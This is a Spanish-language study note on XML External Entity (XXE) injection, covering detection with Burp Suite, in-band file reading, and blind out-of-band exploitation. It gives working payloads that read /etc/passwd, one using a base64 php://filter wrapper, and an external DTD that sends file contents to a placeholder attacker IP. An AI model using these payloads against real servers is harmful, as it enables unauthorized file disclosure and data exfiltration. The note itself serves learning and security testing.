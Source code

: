 # XXE (XML External Entity Injection)

***

* Tags: #OWASP\_TOP\_10 #vulnerabilidad #hacking #XEE

***

## Definición

> Es una \[\[Vulnerabilidades web]] en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.
>
> Normalmente implica una **inyección** de una entidad **XML** maliciosa en una solicitud HTTP, siendo procesada por el servidor con la posibilidad de resultar en la exposición de información interesante. Un ejemplo podría ser la inyección de una entidad **XML** haciendo referencia a un archivo del servidor pudiendo obtener información del mismo archivo.
>
> Un caso común en el que se puede explotar **XXE** es cuando el servicio web no validad la entrada de archivos **XML** que recibe. Así, el atacante puede inyectar una entidad **XML** maliciosa.
>
> En algunos casos el atacante deberá ir **a ciegas** para obtener información confidencial, ya que no siempre los ataques **XXE** resultan en la exposición directa de información sensible en la respuesta del servidor. Una forma común de proceder, es enviar peticiones diseñadas desde el servidor para conectarse a un **Document Type Definition (DTD)** definido externamente, utilizado para validar la estructura de un archivo **XML**, pudiendo contener referencias a recursos externos. Es una técnica algo más complicada, aunque podría ser efectiva en casos donde el atacante tiene una idea de los recursos disponibles del sistema. , En algunos otros casos, un ataque **XXE** puede ser utilizado para desencadenar en una vulnerabilidad de tipo \[\[SSRF (Server-Side Request Forgery)]], permitiendo a un atacante escanear **puertos internos** de una máquina que normalmente está protegida por un firewall.

***

## Detección de vulnerabilidad

Para detectar la vulnerabilidad, será necesario el envío de una entidad **XML**, que puede ser interceptado con \[\[Burpsuite]]. La petición podría tener la siguiente forma, mostrando o no por pantalla datos interesantes una vez enviada la entidad **XML** (dependiendo del caso nos encontraríamos con un ataque normal o uno **a ciegas**):

```xml
<?xml version="1.0" encoding="UTF-8"?>
   <root>
     <name>
       test
     </name>
     <tel>
       123456789
     </tel>
     <email>
       test@test
    </email>
     <password>
       test123
     </password>
  </root>
```

Si se mostrase algún campo introducido en la respuesta de la solicitud, podríamos intentar explotar la vulnerabilidad, pero si no se viese, sería un poco más complicado y tendríamos que ir **a ciegas**.

En **XML**, existen lo que se conocen como **entidades**, que vienen a ser como una especie de variable que referencia a otro campo o dato, por ejemplo, si quisiéramos crear una entidad llamada **myName** con nombre **nombre**, tendríamos que proporcionar la siguiente línea:

```xml
<!DOCTYPE foo [<!ENTITY myName "nombre">]>
```

Y para acceder al contenido de ella, simplemente ponemos un _&_ delante del nombre de la entidad, por ejemplo:

```xml
&myName
```

***

## Explotación con output

La gracia de las **entidades**, es el hecho de que podemos utilizarlos para mostrar archivos del propio sistema, por ejemplo, para guardar en una entidad el contenido del archivo /etc/passwd, podemos hacer uso de la siguiente sentencia:

```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
```

Si quisiéramos crear una nueva entidad con el contenido del mismo directorio, solo que ahora cifrado en **base64** (para que sea más cómodo), podemos utilizar lo siguiente:

```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd>]>
```

De manera que si pudiéramos ver algún campo que hemos introducido en la respuesta de la página web, podemos llamarlo como hemos mencionado anteriormente y ver el contenido del mismo, por ejemplo con el ejemplo del principio:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
   <root>
     <name>
       test
     </name>
     <tel>
       123456789
     </tel>
     <email>
       &myFile
    </email>
     <password>
       test123
     </password>
  </root>
```

Suponiendo que el campo que visualizamos es el de _email_.

Podemos utilizar distintos \[\[Wrappers]] en las entidades (en los dos ejemplos hemos utilizados distintos), que se utilizan usualmente en la vulnerabilidad \[\[LFI (Local File Inclusion)]].

La cosa es que no siempre en la página web nos permiten inyectar **entidades** (la misma página te puede lanzar un mensaje informando de lo mismo), por lo que pasaríamos a realizar una explotación **a ciegas (OOB)**.

***

## Explotación a ciegas (XXE OOB Blind)

Para proceder con la explotación **a ciegas**, haremos uso de las externals **DTD**. Ya que no podemos ver el output de la respuesta en la página web, el objetivo va a ser que la máquina remota nos mande por una petición **GET**, dicha información.

Podemos crear la siguiente entidad, y teniendo previamente montado un servidor HTTP, deberíamos ser capaces de ver dicha solicitud una vez haya sido enviada nuestra entidad **XML**:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<IP_ATACANTE>/malicious.dtd"> %xxe;]>
```

De manera que si creamos el **DTD** de la siguiente forma, nos llegaría el contenido de /etc/passwd en **base64**:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://<IP_ATACANTE>/?file=%file;'>"> 
%eval; 
%exfil;
```

Puede ser un poco tedioso tener que realizar este proceso continuamente y tener que descifrar el mensaje en **base64**, por lo que podemos hacer uso del script \[\[xxe\_oob.sh]], de manera que está todo automatizado.

***

## Ejemplos prácticos

[XXE Lab](https://github.com/jbarone/xxelab)
